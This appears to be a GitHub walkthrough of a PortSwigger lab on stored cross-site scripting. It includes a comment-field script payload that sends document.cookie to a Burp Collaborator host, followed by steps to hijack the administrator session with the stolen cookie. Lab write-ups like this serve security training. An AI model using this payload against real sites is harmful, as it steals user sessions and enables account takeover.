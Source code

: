 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3dcbedd6-9e87-454a-920c-6e24351e9f3d)

### Solution

The vulnerablility is in the comment section

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d52af708-1f6b-40f6-b808-a933b2cf7a56)

now we will use the payload in the comment section

```js
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

we will use burp collaborator to generate a subdomain

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7e9f4cd7-ae54-4a40-b85b-e44b48a36433)

after clicking poll now we can see the result

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b39bd70a-61ac-4320-b71f-51f020c69a75)

session cookie value `7DHUIVGKgP42W5BFRsSqnjYOq5NlWZ6u`

Lets copy the session value and and go to the web browser and turn on burp intercept and then click on my account.

change cookie value with the session cookie that we have.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d40ed885-7704-419e-aedc-aed36e99c109)

we can now see that it says we are administrator

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9494b98a-853a-4f03-b791-495bcd2305b7)

lab solved succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/69f91b7e-e320-4dfd-b819-c79da8b87c19)


